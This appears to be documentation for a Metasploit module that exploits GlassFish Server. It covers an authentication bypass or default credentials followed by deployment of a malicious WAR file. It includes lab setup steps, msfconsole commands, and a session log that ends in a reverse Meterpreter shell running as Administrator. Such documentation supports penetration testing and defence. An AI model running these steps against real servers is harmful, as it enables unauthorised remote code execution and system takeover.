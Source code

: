 ## Description

This module logs in to a GlassFish Server (Open Source or Commercial) using various methods (such as authentication bypass, default credentials, or user-supplied login), and deploys a malicious war file in order to get remote code execution. It has been tested on Glassfish 2.x, 3.0, 4.0 and Sun Java System Application Server 9.x. Newer GlassFish versions do not allow remote access (Secure Admin) by default, but is required for exploitation.

## GlassFish

GlassFish is a open-source application server project started by Sun Microsystems for the Java EE platform and now sponsored by Oracle Corporation. The supported version is called Oracle GlassFish Server. GlassFish is free software, dual-licensed under two free software licences: the Common Development and Distribution License (CDDL) and the GNU General Public License (GPL) with the classpath exception.

## Installation

For testing purposes, the following explains how you can install a vulnerable version of GlassFish on Ubuntu Linux:

1. Make sure you have a clean Ubuntu box
2. Open a terminal on the Ubuntu box, and do: ```sudo apt-get install default-jdk```. We assume this gives you JDK 8.
3. Download [GlassFish 4.0](http://download.java.net/glassfish/4.0/release/glassfish-4.0.zip)
4. Unzip GlassFish-4.0, navigate to the bin directory, and then start ```asadmin```
5. In the asadmin console, do ```start-domain domain1```. This will start GlassFish.
6. On the Ubuntu box, go to http://localhost:4848 with a browser
7. On the left menu, click on ```Domain```
8. On the right, click on ```Administrator Password```
9. Set a new password for admin
10. On the left menu, click on ```server (Admin server)```
11. On the right, click on ```Secure Administrator```
12. Click on ```Enable Secure Admin```
13. You will need to wait for up to a minute to make sure GlassFish is up and running again on port 4848.

If you are on a different platform (such as Windows), the installation should be quite similar.

## Verification Steps

1. Do: ```use exploit/multi/http/glassfish_deployer```
2. Do: ```set RHOST [IP]```
3. Do: ```set USERNAME [Username]```
4. Do: ```set PASSWORD [Password]```
5. Do: ```run```

## Scenarios

```
msf > use exploit/multi/http/glassfish_deployer
msf exploit(glassfish_deployer) > set RHOST 172.16.182.237
RHOST => 172.16.182.237
msf exploit(glassfish_deployer) > set USERNAME admin
USERNAME => admin
msf exploit(glassfish_deployer) > set PASSWORD admin123
PASSWORD => admin123
msf exploit(glassfish_deployer) > exploit
[*] Started reverse TCP handler on 172.16.182.112:4444 
[*] Glassfish edition: GlassFish Server Open Source Edition 3.0.1
[*] Trying GlassFish authentication bypass..
[+] http://172.16.182.237:4848// - GlassFish - SUCCESSFUL authentication bypass
[*] Uploading payload...
[*] Successfully uploaded
[*] Executing /icDfejbl6Vc9ZobfgVv9LIBES/SV7fVtWuTQFZqtzMPiJ.jsp...
[*] Sending stage (30355 bytes) to 172.16.182.237
[*] Meterpreter session 1 opened (172.16.182.112:4444 -> 172.16.182.237:1472) at 2017-03-27 19:07:58 -0500
[*] Getting information to undeploy...
[*] Undeploying icDfejbl6Vc9ZobfgVv9LIBES...
[*] Undeployment complete.

meterpreter > getuid
Server username: Administrator
meterpreter > sysinfo
Computer    : juan-6ed9db6ca8
OS          : Windows 2003 5.2 (x86)
Meterpreter : java/java
meterpreter > exit
[*] Shutting down Meterpreter...

```
